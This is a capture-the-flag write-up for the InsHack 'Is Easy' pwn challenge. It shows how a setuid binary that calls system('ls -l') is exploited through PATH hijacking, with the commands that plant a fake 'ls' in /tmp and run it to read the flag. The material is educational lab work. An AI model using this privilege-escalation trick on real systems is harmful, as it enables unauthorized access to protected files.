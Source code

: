 ```yaml
---
title: "InsHack -- Iseasy Writeup"
categories:
  - PlaidCTF
tags:
  - CTF
  - pwn
  
# If only it worked...
# header:
#   image: test_image.png
#   teaser: test_image.png
---
```


<div class="notice--info">
<strong>What I learned from this:</strong>
<ul>
<li>Check for multiple attack vectors</li>
<li>Basic knowledge on HTTP Servers (in this case Apache)</li>
<li>The difference between PHP's <code>exec</code>, <code>system</code> and <code>passthru</code></li>
</ul>
</div>
# Is Easy

**Category:** Pwn

**Points:** 75

**Solves:** 127

**Description:**

    My shower won't give me warm water :/ maybe it's an hacker? :o Could you help me?
    ssh <you_ssh_user>@pwn1.ctf.insecurity-insa.fr
**Given:** `Iseasy` and `vuln.c`

**Flag format:** `INSA{...}`

# Solution:
**By:** Vasco Franco (jofra)

The whole source code is just this litle snippet:
```C
int main() {
    system("ls -l");
}
```

This simply lists the files in the current directory. <br>
Very importantly the program is running with **setuid**, meaning the executable **runs as root** even if a normal user runs it. But how can this harm anyone if it just lists a directory?

Well, the program will run the executable `ls` but how does it find it? It uses the PATH environment variable.<br>
That means that if we are able to point it to our `ls` it would just run `our/ls` and not `/bin/ls`!

So the solution goes something like this:
 - Create a file named `ls` in the `/tmp/a` directory.
```
mkdir /tmp/a
touch /tmp/a/ls
```

 - Write in `/tmp/a/ls`:
```
/bin/cat $PWD/flag
```

 - And now if we just change the PATH environment variable to point to our `ls` it should work:
```
export PATH=/tmp/a
./vuln
```

**IT WORKED!**
